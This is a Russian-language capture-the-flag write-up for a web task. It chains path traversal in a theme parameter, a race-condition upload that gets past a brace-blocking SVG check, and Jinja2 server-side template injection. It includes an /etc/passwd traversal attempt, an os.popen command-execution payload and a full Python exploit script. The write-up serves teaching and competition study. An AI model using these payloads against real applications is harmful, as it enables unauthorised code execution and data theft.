


# Ржавчинная руда: Write-up

Доменное имя сайта наталкивает на мысли, которые оказываются совершенно ложными. Смиримся с этим.

Изучим сайт. У нас есть страница с постами и кнопки, открывающие формы: создания поста и настроек. Создав пост, мы увидим, что он выглядит точно так же, как и все остальные; наше имя пользователя — это последняя часть адреса страницы, а в качестве аватарки у нас серый кружочек. А настройки позволяют выбрать одну из трёх тем и загрузить себе новую аватарку. Правда, принимаются почему-то только векторные изображения с расширением _.svg_.

Чтобы видеть, что происходит с аватаркой, полезно создать хотя бы один пост — он будет самый новый — и переключиться на одну из тем, где аватарки крупные.

Можно заметить, что загрузка изображения приводит к результату не сразу: появляется изображение, информирующее о проверке аватарки антивирусом:


Действительно, мало ли что бывает в SVG? Но если с картинкой всё нормально, через несколько секунд аватарка обновится.

Как же добиться срабатывания антивируса? Можно попробовать формировать разные SVG-файлы: невалидный XML, джаваскрипт внутри, просто файлы другого типа… Рано или поздно антивирус не пропустит файл.


Оказывается, «антивирус» всего лишь проверяет наличие в файле скобок `{` и `}` — даже тогда, когда эти скобки ничему не угрожают.

Или угрожают?

Вернёмся чуть-чуть назад, к списку тем, и посмотрим на него повнимательнее.

```html
<select name="theme">
    <option value="default.html" selected>default</option>
    <option value="rusty.html" >rusty</option>
    <option value="modern.html" >modern</option>
</select>
```

Почему-то в значениях указан `.html` — прямо как в именах файлов. Естественно предположить, что это и в самом деле физически существующие файлы. Только вот как до них добраться?

Аватары доступны по адресам вида `…/x6983v71aunu10r5/?avatars/x6983v71aunu10r5.svg`. Часть адреса, которая идёт после знака `?`, — это запросная строка (query string). В отличие от пути (который идёт левее), для такого указания на имя файла не гарантируется нормализация; то есть здесь с большей вероятностью возможна уязвимость к атаке _path traversal_.

Впрочем, конкретно в этом месте сервис, похоже, как-то защищён: попытки сделать запросы вида `…?avatars/../../../../etc/passwd` приводят к ответам `403: Forbidden`.

Но это место — не единственное, где мы можем указывать путь к файлу. Что будет, если в качестве имени шаблона попробовать указать путь к аватарке? Мы пока не знаем, какой у неё относительный путь, но мы уже знаем, что существует директория `avatars` — поэтому можем предположить, что сработает что-то вроде `../avatars/uuruozecacixrsmo.svg` (возможно, с несколькими `../`).

Найдём какую-нибудь аватарку и подправим элемент веб-инспектором:



И действительно: если в имени файла нет ошибок, теперь мы видим вместо страницы картинку, то есть именно она была использована в качестве шаблона. Выбранная тема устанавливается в куки, поэтому чтобы вернуть сайт как было, их нужно удалить.

Наверное, всё-таки не зря «антивирус» запрещает фигурные скобки. Вероятно, используется шаблонизатор вроде Jinja2, где именно внутри фигурных скобок заключаются все конструкции.

Можно заметить, что «антивирус» запускается отложенно с некоторой периодичностью. Наверное, с этой периодичностью он просматривает некую папку с файлами, подлежащими обработке, обрабатывает их, а в случае прохождения проверки перемещает в целевое место. Иногда бывает так, что можно записать в файл часть содержимого, позволить проверке отработать на этой части, а потом дописать остальную часть. Уязвимости этого класса называются _состоянием гонки_ _(race condition)_.

В Linux перемещение открытого файла в пределах одной файловой системы никак не мешает процессам, которые его открыли, читать и писать его.

Как же разнести во времени запись разных частей файла? Можно отправить тело HTTP-запроса с картинкой по частям, с ожиданием в середине. Если ни на каком этапе не случится буферизации запроса, сервер сразу начнёт запись в файл — но не закончит её, а будет ждать очередной порции данных, пока запрос не будет получен полностью.

Достанем образец тела запроса из веб-инспектора, чтобы поменять его под наши нужды.



Нам сначала надо заслать некую часть запроса, которая пройдёт «антивирус» — может потребоваться увеличить её размер пробелами, чтобы буферизации точно не случилось. Потом можно дослать остаток шаблона. Затем следующим запросом неплохо бы посмотреть, к чему приведёт использование нашего шаблона.

Вообще этот вид уязвимостей называется _SSTI_ _(server-side template injection)_. На самом деле в нашем случае мы можем не только посмотреть передаваемые в шаблон переменные, но и исполнить произвольный код — это позволяет, например, получить исходный код приложения, удалить чужие посты и вообще делать что угодно.

Вот так, например, в Jinja2 можно посмотреть весь текущий контекст шаблона (в том числе передаваемую ему переменную `flag`):

```
{{ self._TemplateReference__context }}
```

А вот так — вытащить все исходники:

```
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen("grep -r . /app").read() }}
```

Способов добраться до исполнялки команд существует множество — вот [далеко не полный набор трюков для Jinja2](https://book.hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/jinja2-ssti.html).

Полный эксплоит, отправляющий запрос с задержкой и достающий только флаг, выглядит так:

```python
#!/usr/bin/env python3

import requests
import aiohttp
import asyncio

PATH = "https://rustore.s.2025.ugractf.ru/x6983v71aunu10r5/"
BOUNDARY = b"----WebKitFormBoundary7MA4YWxkTrZu0gW"

async def body_generator():
    yield b"--" + BOUNDARY + b"\r\n"
    yield b'Content-Disposition: form-data; name="theme"\r\n\r\n'
    yield b"../avatars/x6983v71aunu10r5.svg\r\n"
    yield b"--" + BOUNDARY + b"\r\n"
    
    yield b'Content-Disposition: form-data; name="avatar"; filename="avatar.svg"\r\n'
    yield b"Content-Type: image/svg+xml\r\n\r\n"
    yield b" " * 40000

    print("Sleeping 20s...")
    await asyncio.sleep(20)

    yield b"\r\n{{ flag }}\r\n"
    yield b"--" + BOUNDARY + b"--\r\n"
    print("Done")

async def main():
    async with aiohttp.ClientSession() as session:
        async with session.post(PATH + "settings", data=body_generator(),
                        headers={"Content-Type": "multipart/form-data; "
                                                 "boundary=" + BOUNDARY.decode()}) as response:
            _ = await response.text()
        async with session.get(PATH) as response:
            print(await response.text())

asyncio.run(main())
```

Флаг: **ugra_ital_ldepen_dsonho_wyousp_lit_j4f5gu7wmv99**

## Постмортем I

Для упрощения задания была оставлена возможность просматривать списки файлов в директории запросами вида `…?avatars/` или даже `…?./`. Это позволяет обнаружить не только директорию `themes`, но и директорию `avatars-temp` — зная о её существовании и их взаимном расположении, можно сразу установить в качестве темы `../avatars-temp/x6983v71aunu10r5.svg`, минуя антивирус и избегая сложностей с созданием задержки в середине запроса. Впрочем, такой шаблон работал бы только несколько секунд до проверки, что могло доставлять неудобства для исследования.

## Постмортем II

Некоторые промежуточные прокси-серверы, в частности, nginx с настройками по умолчанию, достаточно агрессивно буферизуют запросы, не пропуская их дальше, пока запрос не будет отправлен полностью. Это сделано для того, чтобы веб-серверы, где ожидание сетевого взаимодействия блокирует сервер целиком (например, Flask) проводили в таком ожидании минимально возможное время.

В течение некоторого времени после начала соревнования был запущен nginx как раз с такими настройками, что не позволяло решить задачу задуманным способом. Проблема была замечена и исправлена примерно через час после начала соревнований, о чём участники были проинформированы.
